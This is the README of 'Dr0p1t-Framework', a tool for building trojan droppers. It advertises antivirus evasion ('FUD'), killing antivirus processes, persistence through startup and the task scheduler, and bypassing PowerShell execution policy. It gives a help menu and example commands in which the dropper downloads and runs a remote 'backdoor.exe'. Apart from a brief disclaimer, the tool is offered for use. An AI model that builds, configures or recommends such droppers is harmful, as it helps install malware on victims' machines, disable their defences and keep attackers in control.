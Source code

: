 # Dr0p1t-Framework (beta version) [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/) ![Build Status](https://img.shields.io/badge/Version-1.0.1-red.svg)
###### Version 1.0.1 , see CHANGELOG.md file

Have you ever heard about trojan droppers ? you can read about them from [here](https://blog.malwarebytes.com/threats/trojan-dropper/).

Dr0p1t let you create dropper like any tool but this time FUD with some tricks ;)

# Features
- Works with Windows and Linux
- Adding malware after downloading it to startup
- Adding malware after downloading it to task scheduler
- Finding and killing the antivirus before running the malware
- Running a custom (batch|powershell|vbs) file you have choosen before running the malware
- In running powershell scripts it can bypass execution policy
- Using UPX to compress the dropper after creating it
- Choose an icon for the dropper after creating it

# Screenshots
## On Windows
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random2.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random1.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/raw/master/Screenshots/Windows/Help_msg.JPG" width="35%"></img>
## On Linux (Backbox)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random1.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random2.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Help_msg.JPG" width="35%"></img>

### Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
  -h, --help   show this help message and exit
  -s           Add your malware to startup (Persistence)
  -t           Add your malware to task scheduler (Persistence)
  -k           Kill antivirus process before running your malware.
  -b           Run this batch script before running your malware. Check scripts folder
  -p           Run this powershell script before running your malware. Check scripts folder
  -v           Run this vbs script before running your malware. Check scripts folder
  --only32     Download your malware for 32 bit devices only
  --only64     Download your malware for 64 bit devices only
  --upx        Use UPX to compress the final file.
  -i           Use icon to the final file. Check icons folder.
  -q           Stay quite ( no banner )
  -u           Check for updates
  -nd          Display less output information
```
### Examples
```
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1
```
# Prerequisites
- Python 3.x( prefered 3.5 and don't use 3.6 because it's not supported yet by PyInstaller )
- Python libraries requirements in requirements.txt

# Installation
if you are on linux and do
```
git clone https://github.com/D4Vinci/Dr0p1t-Framework
chmod 777 -R Dr0p1t-Framework
cd Dr0p1t-Framework
pip install -r requirements.txt
./Dr0p1t.py
```
And if you are on windows download it and then do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
pip install -r windows_requirements.txt
./Dr0p1t.py
```
Libraries in windows_requirements.txt are used to enable unicodes in windows which will make coloring possible :smile:

## Todo

[Check out this link](https://github.com/D4Vinci/Dr0p1t-Framework/projects/1)

## Contact
- [Twitter](https://twitter.com/D4Vinci1)
- [Facebook](https://www.facebook.com/kareem.shoair)

## Disclaimer
Dr0p1t Framework not responsible for misuse and for illegal purposes. Use it only for work or educational purpose !!!

Copying a code from this framework or using it in another tool is accepted as you mention where you get it from :smile:

> Pull requests are always welcomed :D

# Much more features to come, stay tuned !!
